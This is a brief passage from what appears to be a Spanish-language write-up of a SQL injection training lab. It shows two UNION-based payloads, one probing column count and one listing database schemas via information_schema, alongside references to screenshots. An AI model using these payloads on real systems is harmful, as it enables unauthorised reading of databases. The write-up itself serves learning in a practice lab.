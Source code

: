 Lo mismo de antes.

```sql
' union select NULL,NULL--
```

![](/assets/img/ps-writeup-sqli/ps-lab10_2.png)

```sql
' union select NULL,schema_name from information_schema.schemata--
```

![](/assets/img/ps-writeup-sqli/ps-lab10_3.png)
